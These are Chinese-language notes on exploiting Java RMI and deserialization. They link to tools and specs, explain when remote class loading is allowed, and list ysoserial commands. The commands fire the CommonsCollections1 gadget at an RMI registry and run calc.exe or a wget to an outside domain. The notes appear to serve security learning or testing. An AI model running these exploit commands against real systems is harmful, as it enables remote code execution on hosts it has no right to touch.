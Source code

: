 [转储和重建 Java 序列化流和 Java RMI 数据包内容的工具](https://github.com/NickstaDB/SerializationDumper)

[用于枚举和攻击Java RMI（远程方法调用）服务的工具](https://github.com/NickstaDB/BaRMIe?tab=readme-ov-file)

[JAVA反序列化文档](https://docs.oracle.com/javase/8/docs/platform/serialization/spec/protocol.html)

https://paper.seebug.org/1091/

- 由于Java SecurityManager的限制，默认是不允许远程加载的，如果需要进行远程加载类，需要安装RMISecurityManager并且配置java.security.policy，这在后面的利用中可以看到。
- 属性 java.rmi.server.useCodebaseOnly 的值必需为false。但是从JDK 6u45、7u21开始，java.rmi.server.useCodebaseOnly 的默认值就是true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前虚拟机的java.rmi.server.codebase 指定路径加载类文件。使用这个属性来防止虚拟机从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性

yso常用命令：

```
java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 1099 CommonsCollections1 calc.exe

java -cp ysoserial-all.jar ysoserial.payloads.JRMPClient 127.0.0.1 1099 CommonsCollections1 calc.exe

java -cp ysoserial-all.jar ysoserial.exploit.RMIRegistryExploit 127.0.0.1 80 CommonsCollections1 "wget rmiyso.bit.0y0.link"
```

java 8 update 121进行了限制
